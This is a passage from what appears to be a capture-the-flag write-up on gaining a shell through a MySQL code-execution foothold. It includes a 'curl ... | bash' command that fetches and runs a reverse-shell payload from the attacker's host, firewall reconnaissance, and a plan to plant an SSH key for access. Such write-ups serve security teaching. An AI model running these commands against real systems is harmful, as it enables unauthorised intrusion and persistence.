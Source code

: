 

## Initial access - MySQL

Now that we have verified code-execution, let us try to get a reverse-shell next. For this let us use the RCE to download a reverse-shell and execute it.

```bash
mysql:~$ curl 10.10.14.26|bash
```

When executing our payload, we do not get a response on either our pseudo SQL-shell nor on our web-server. Let us troubleshoot again.

### Troubleshooting reverse-shell issues

Let us start by verifying that `curl` is available.

```bash
mysql:~$ which curl
/usr/bin/curl
```

Curl is available, so we are probably not able to make connections outbound. Let us check the iptables rules.

```php
php> ls /etc/iptables  
Array
(
    [0] => .
    [1] => ..
    [2] => rules.v4
)
php> cat /etc/iptables/rules.v4
# Generated by iptables-save v1.6.1 on Mon May 11 02:27:29 2020
*filter
:INPUT DROP [6:1032]
:FORWARD DROP [0:0]
:OUTPUT DROP [5:394]
-A INPUT -i lo -j ACCEPT
-A INPUT -m state --state RELATED,ESTABLISHED -j ACCEPT
-A INPUT -p tcp -m tcp --dport 22 -m tcp -j ACCEPT
-A INPUT -p tcp -m tcp --dport 80 -m tcp -j ACCEPT
-A INPUT -p icmp -m icmp --icmp-type 0 -j ACCEPT
-A INPUT -p icmp -m icmp --icmp-type 8 -j ACCEPT
-A OUTPUT -m state --state RELATED,ESTABLISHED -j ACCEPT
-A OUTPUT -p tcp -m tcp --sport 22 -m tcp -j ACCEPT
-A OUTPUT -p tcp -m tcp --sport 80 -m tcp -j ACCEPT
COMMIT
# Completed on Mon May 11 02:27:29 2020
```

Looking at the iptables rules, we can see that only SSH, HTTP and ICMP is allowed. As SSH is allowed, let us try to add our ssh-key to the authorized_keys file.
